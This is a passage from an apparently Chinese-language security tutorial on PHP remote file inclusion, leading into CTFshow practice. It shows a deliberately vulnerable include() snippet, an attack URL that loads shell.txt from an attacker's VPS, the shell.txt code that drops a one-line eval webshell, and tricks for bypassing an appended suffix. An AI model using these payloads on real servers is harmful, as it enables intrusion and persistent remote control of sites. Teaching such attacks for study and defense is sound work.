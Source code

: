 PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

```php
#是否允许打开远程文件
allow_url_fopen = On
#是否允许include/require远程文件
allow_url_include = On
```

#### 无限制远程文件包含漏洞

通过远程文件包含漏洞，包含shell.txt可以解析

```php
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

```bash
?a=http://攻击者的VPS/shell.txt
#会在网站目录生成名为 shell.php 的一句话木马
```

**shell.txt内容为：**

```php
<?php
    fputs(fopen('./shell.php','w'),'<?php @eval($_POST[aaa]) ?>');
?>
```

#### 有限制远程文件包含漏洞绕过

例如html

```php
<?php include($_GET['filename'] . ".html"); ?>
```

代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀

可以通过  ？# 空格 绕过，也可以直接burp爆破尝试支持的绕过符号。

## 文件包含伪协议利用

PHP 带有很多内置 URL 风格的封装协议，而这些协议则是我们处理文件包含漏洞经常用到的方法可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/wjbh-2.png)

各类脚本语言包含伪协议玩法参考

[https://www.cnblogs.com/endust/p/11804767.html](https://www.cnblogs.com/endust/p/11804767.html)

## 实战练习—CTFshow
